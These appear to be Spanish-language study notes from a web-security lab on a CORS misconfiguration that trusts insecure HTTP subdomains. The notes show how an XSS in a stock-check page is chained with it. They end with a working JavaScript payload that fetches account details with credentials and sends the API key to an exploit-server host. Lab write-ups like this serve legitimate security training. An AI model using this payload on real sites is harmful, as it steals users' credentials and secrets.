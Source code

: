 En esta clase abordamos un caso en el que el servidor permite solicitudes CORS desde cualquier subdominio, independientemente de si usan HTTPS o HTTP. Esta configuración es especialmente peligrosa cuando se combinan con peticiones que incluyen credenciales.

Aprovechamos una funcionalidad vulnerable de la aplicación, donde una URL en HTTP ejecuta un script inyectado a través de un parámetro. Este script lanza una solicitud **XMLHttpRequest** a un endpoint protegido, obteniendo la clave API del administrador gracias a que el origen inseguro en HTTP sigue siendo aceptado por el servidor. El resultado se redirige al servidor de explotación, permitiendo capturar y enviar la clave para completar el laboratorio.

Solucion
aplicamos los pasos pero en este caso no va funcionar ni el null ni otra cosa
![Pasted_image_20250728211958.png](/Imagenes/Pasted_image_20250728211958.png)
entonces aqui trabaja con subdominios
la primera prueba sera con el propio dominio
![Pasted_image_20250728212301.png](/Imagenes/Pasted_image_20250728212301.png)
probamos con otro diferente
![Pasted_image_20250728212435.png](/Imagenes/Pasted_image_20250728212435.png)
y tambien funciona
ahora toca buscar en la web aver que encontramos
La web:
![Pasted_image_20250728212612.png](/Imagenes/Pasted_image_20250728212612.png)
presionamos el del perro
![Pasted_image_20250728212639.png](/Imagenes/Pasted_image_20250728212639.png)
le damos en check stock
cuando le damos en check stock obtenemos esto
![Pasted_image_20250728212726.png](/Imagenes/Pasted_image_20250728212726.png)

vamos a intestigar esa nueva ventana injectando codigo
![Pasted_image_20250728212850.png](/Imagenes/Pasted_image_20250728212850.png)
y es vulnerable a xss
y podemos ver que este subdomio no tiene problema en ser mandado al origin
![Pasted_image_20250728213015.png](/Imagenes/Pasted_image_20250728213015.png)
asi que vamos a mandar exfiltrar informcion entonces para ello vamos a realizar un script

<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>
